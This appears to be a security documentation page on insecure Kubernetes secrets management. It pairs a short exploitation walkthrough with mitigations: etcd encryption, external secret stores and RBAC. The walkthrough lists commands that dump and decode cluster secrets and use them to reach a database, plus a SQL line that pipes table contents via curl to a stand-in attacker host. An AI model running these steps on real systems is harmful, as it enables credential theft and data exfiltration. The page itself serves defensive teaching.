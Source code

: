 ```yaml
---
sidebar_position: 5
title: Insecure Secrets Management
description: Understanding the risks of insecure secrets management in Kubernetes and best practices to securely handle sensitive data.
---
```


# Insecure Secrets Management

Insecure secrets management in Kubernetes can lead to the exposure of sensitive data, such as API keys, database credentials, and certificates. Storing secrets in plaintext or using insecure backends increases the risk of unauthorized access by attackers.

---

## Exploitation Steps: Accessing Insecurely Stored Secrets

An attacker can identify Kubernetes Secrets stored in plaintext using the following command:

```bash
kubectl get secrets -o yaml
```

### 1. Decode a Kubernetes Secret

The attacker extracts and decodes a Base64-encoded secret:

```bash
kubectl get secret db-secret -o go-template='{{.data.password|base64decode}}'
```

### 2. Access Sensitive Services Using Exposed Credentials

The attacker uses the decoded credentials to access a database:

```bash
psql -h <database-ip> -U admin -W
```

### 3. Exfiltrate Data from the Database

The attacker exports sensitive data from the database to an external server:

```sql
COPY (SELECT * FROM sensitive_data) TO PROGRAM 'curl -X POST -d @- http://attacker.com/upload';
```

### Result

The attacker can access and exfiltrate sensitive data, potentially causing data breaches and regulatory compliance violations.

---

## Mitigation Techniques and Fixes

### 1. Encrypt Secrets at Rest

**Issue:** Secrets stored in etcd are not encrypted by default.<br />
**Fix:** Enable encryption at rest in the Kubernetes configuration.

#### Example Encryption Configuration for etcd

```yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  providers:
  - aescbc:
      keys:
      - name: key1
        secret: c2VjcmV0LWtleS1mb3ItZW5jcnlwdGlvbg==
  - identity: {}
```

### 2. Use External Secret Management Solutions

**Issue:** Kubernetes Secrets alone do not provide advanced security features.<br>
**Fix:** Integrate with external secret management tools like HashiCorp Vault, AWS Secrets Manager, or Azure Key Vault.

#### Example of Using External Secrets with Kubernetes

```yaml
apiVersion: secrets-store.csi.x-k8s.io/v1
kind: SecretProviderClass
metadata:
  name: vault-secrets
spec:
  provider: vault
  parameters:
    vaultAddress: "https://vault.example.com"
    roleName: "k8s-role"
    objects: |
      array:
        - objectName: "db-password"
          secretPath: "secret/data/db"
          secretKey: "password"
```

### 3. Limit Access to Secrets with RBAC

**Issue:** Lack of access controls allows unauthorized access to secrets.<br>
**Fix:** Implement Role-Based Access Control (RBAC) to restrict secret access.

#### Example of RBAC Policy for Secret Access

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: secret-reader
rules:
- apiGroups: [""]
  resources: ["secrets"]
  verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-secrets
  namespace: default
subjects:
- kind: ServiceAccount
  name: secret-reader-sa
roleRef:
  kind: Role
  name: secret-reader
  apiGroup: rbac.authorization.k8s.io
```

---

## Conclusion

To securely manage Kubernetes secrets:

- Always enable encryption at rest using etcd encryption.
- Utilize external secret management solutions for enhanced security.
- Apply RBAC policies to restrict access to sensitive data.

